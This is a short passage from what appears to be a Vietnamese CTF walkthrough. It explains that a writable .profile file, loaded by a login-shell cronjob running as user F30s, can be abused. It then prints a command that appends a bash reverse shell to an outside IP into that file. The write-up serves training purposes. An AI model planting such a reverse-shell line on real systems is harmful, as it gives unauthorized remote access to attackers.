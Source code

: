 ![](Images/32.png)

- Ta phát hiện thấy có 2 cronjob là `site_check` và `health_check` được chạy bởi root và F30s.

![](Images/33.png)

- Bên cạnh đó là tệp `.profile` có thể ghi nằm trong F30s.

- Trong khi đó, cronjob F30s chạy có tùy chọn `-l`, khi đó, file `.profile` sẽ được load.

- Vì vậy có thể chèn reverse shell vào file này.

```bash
echo 'bash -c "bash -i >& /dev/tcp/10.8.31.209/1234 0>&1"' >> /home/F30s/.profile
```

![](Images/34.png)
